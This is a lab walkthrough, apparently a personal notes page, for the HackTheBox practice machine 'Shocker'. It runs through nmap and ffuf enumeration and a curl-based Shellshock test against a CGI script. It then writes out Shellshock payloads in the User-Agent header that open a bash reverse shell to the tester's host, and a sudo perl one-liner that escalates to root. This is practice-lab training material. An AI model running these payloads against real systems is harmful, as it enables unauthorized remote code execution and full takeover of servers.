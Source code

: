 *2021-10-02*

*kimm3*

# Walkthrough: Shocker
Platform: HackTheBox

Difficulty: Easy

- [Link](https://app.hackthebox.eu/machines/108)

This box is on TJ Null/NetSec Focus list for OSCP-like machines.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.10.56; ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -v -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20211002075923657.png)

![index](assets/markdown-img-paste-20211002080000969.png)

`sudo nmap $IP -p 80 --script vuln -oA scans/nmap-80-vuln`

![http-vuln](assets/markdown-img-paste-20211002083016829.png)

```
ffuf -u http://$IP/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdir.md

ffuf -u http://$IP/cgi-bin/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-cgidir.md

ffuf -u http://$IP/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-index-medium.md

ffuf -u http://$IP/FUZZ.php -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-index-mediumphp.md

ffuf -u http://$IP/FUZZ.sh -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-cgish.md
```
Did alot of fuzzing/enumeration with ffuf. Found a cgi-bin folder. Did searches for php and eventually sh files within the cgi-bin folder and got 'user.sh':

![ffuf-sh](assets/markdown-img-paste-20211002085402341.png)

![usersh](assets/markdown-img-paste-20211002084641465.png)

Since we have a shellscript inside a cgi-bin, this might be vulnerable to shellshock, depending on bash version. This vuln uses the fact that request headers are saved as env variables. We can use this to execute shell commands on the target.

Testing user.sh for shellshock vuln:

`curl -H "User-agent: () { :;}; echo ThisIsAVuln" http://$IP/cgi-bin/user.sh | grep ThisIsAVuln`

![vulnerable](assets/markdown-img-paste-20211002084839493.png)

- [Reference](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)
## Foothold/Exploit
We can use shellshock to get a shell.

`curl -H "User-agent: () { :;}; bash -i >& /dev/tcp/10.10.14.13/445 0>&1" http://$IP/cgi-bin/user.sh`

![first-fail](assets/markdown-img-paste-20211002085808146.png)

First try fail due to bash not being in path.

`curl -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.13/445 0>&1" http://$IP/cgi-bin/user.sh`

![shell](assets/markdown-img-paste-20211002085850615.png)

![usertxt](assets/markdown-img-paste-20211002085950944.png)
## Privilege Escalation
![sudo-l](assets/markdown-img-paste-20211002090115823.png)

We can run perl with sudo privs, no password required. All we have to do is execute sh from within perl.

`sudo /usr/bin/perl -e 'exec "/bin/sh";'`

![roottxt](assets/markdown-img-paste-20211002090524304.png)
